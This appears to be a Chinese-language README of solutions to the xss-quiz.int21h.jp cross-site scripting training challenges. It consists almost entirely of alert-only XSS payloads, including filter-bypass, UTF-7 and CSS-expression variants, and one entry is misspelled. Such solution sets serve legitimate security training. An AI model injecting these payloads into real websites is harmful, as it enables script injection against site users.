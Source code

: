 # XSS-Challenges
http://xss-quiz.int21h.jp/

使用IE11浏览器

1 \<img onclick="alert(document.domain);" src=\>

2 "\</b\>\<script\>alert(document.domain);\</script\>\<b\>"

4 把type为hidden的input的type改为text 然后在框内输入"><script>alert(document.domain)</script>

5 将input的maxlength改为150或者一个较大的数 然后在框内输入 "><script>alert(document.domain)</script>

6 " onclick = "alert(document.domain)"

7 " onclick = alert(document.domain)

8 javascript:alert(document.domain)

9 将charset的值改为utf-7 然后输入+ACIAIABvAG4AYwBsAGkAYwBrACAAPQAgACIAIABhAGwAZQByAHQAKABkAG8AYwB1AG0AZQBuAHQALgBkAG8AbQBhAGkAbgApAA0AC-

10 " onclick = "alert(document.domaidomainn)"

11 "\>\<a href="javascrip&#x9;t:alert(document.domain)"\>\<"xss\</a>

12 `` onclick = alert(document.domain)

13 aa:expression(if(!window.x){alert(document.domain);window.x=1})

14 aa:expre/**/ssion(if(!window.x){alert(document.domain);window.x=1})

15 \\\\x3Cscript\\\\x3Ealert(document.domain)\\\\x3C/script\\\\x3E

16 \\\\u003cscript\\\\u003ealert(document.domain);\\\\u003c/script\\\\u003e
